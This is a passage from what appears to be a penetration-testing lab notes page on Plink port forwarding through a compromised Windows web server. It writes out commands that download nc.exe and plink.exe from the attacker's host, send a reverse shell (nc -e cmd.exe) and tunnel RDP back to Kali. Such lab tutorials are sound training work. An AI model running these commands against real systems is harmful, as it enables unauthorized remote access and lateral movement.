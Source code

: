```bash
```
{% endcode %}
{% endtab %}
{% endtabs %}

### Plink

OpenSSH might be intentionally removed from Windows machines, but other remote tools might be available. Plink is PuTTY's CLI version. On this scenario:

* `MULTISERVER03` (`192.168.177.64`) has TCP port `80` exposed.
* All other inbound ports are blocked (no RDP).
* `MULTISERVER03` is compromised and we got a webshell at `/umbraco/forms.aspx`.

<figure><img src="https://x7331.gitbook.io/~gitbook/image?url=https%3A%2F%2F3960676229-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FmjLkek16kB60c2WFd5lf%252Fuploads%252Fgr0gunGOqNliUNLqH7dz%252Fport_forward_plink.png%3Falt%3Dmedia%26token%3D9aefbf42-c19b-4ed9-a487-c28891a5028e&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=5f4a66ab&#x26;sv=2" alt=""><figcaption></figcaption></figure>

We will first need to make sure that our SSH server is configured appropriately, i.e., the `GatewayPorts` and `AllowTcpForwarding` settings are set to `yes`. If there aren't and we change them, we will need to restart `ssh` for the changes to take place.

```bash
# Check SSH configuration
$ cat /etc/ssh/sshd_config | grep GatewayPorts
GatewayPorts yes
$ cat /etc/ssh/sshd_config | grep AllowTcpForwarding
AllowTcpForwarding yes
# Restart SSH service
$ sudo service ssh restart
```

{% tabs %}
{% tab title="1. Reverse Shell" %}
Send a reverse shell to Kali through the web shell on `MULTISERVER03:80`.

```powershell
# transfer binary
powershell wget -uri http://192.168.45.235/nc.exe -O c:\windows\temp\nc.exe

# send reverse shell
C:\Windows\Temp\nc.exe -e cmd.exe 192.168.45.235 4444
```
{% endtab %}

{% tab title="2. Remote Port Foward" %}
Cath the reverse shell, transfer the `plink` binary, and create the remote port forward.

{% code overflow="wrap" %}
```bash
# Catch the reverse shell
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.45.235] from (UNKNOWN) [192.168.177.64] 49432
...
# Transfer binary
c:\Windows\Temp>powershell wget -uri http://192.168.45.235/plink.exe -O plink.exe
# Create remote port forward
c:\windows\system32\inetsrv>C:\Windows\Temp\plink.exe -ssh -l x7331 -pw kali -R 127.0.0.1:9833:127.0.0.1:3389 192.168.45.235
```
{% endcode %}
{% endtab %}
